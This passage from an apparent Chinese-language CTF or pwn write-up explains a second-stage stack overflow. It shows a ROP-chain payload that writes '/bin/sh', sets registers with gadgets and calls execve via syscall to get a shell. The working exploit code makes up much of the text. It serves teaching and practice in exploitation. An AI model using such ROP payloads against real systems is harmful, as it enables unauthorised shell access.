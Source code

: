 那么第二轮的 payload 我们只需要考虑两部分内容即可

*   留下`/bin/sh`字符串
*   在 read 的 ret 地址处留下构造好的 ROP 链

第二次溢出 payload 构造如下：

```plain
payload = b'/bin/sh\x00'
payload += p64(0)*6
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(syscall)
```

可以看到在调用`read()`返回时，地址变为了刚刚读入的 ROP 链，最终成功 getshell.

[![](assets/1701606727-54d5e43594ef34cc6fe2b643ea1f8a3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164907-83214018-7d4a-1.png)

[![](assets/1701606727-b03ce0ff5f8d410bda7598270881fc75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164916-886b7ade-7d4a-1.png)
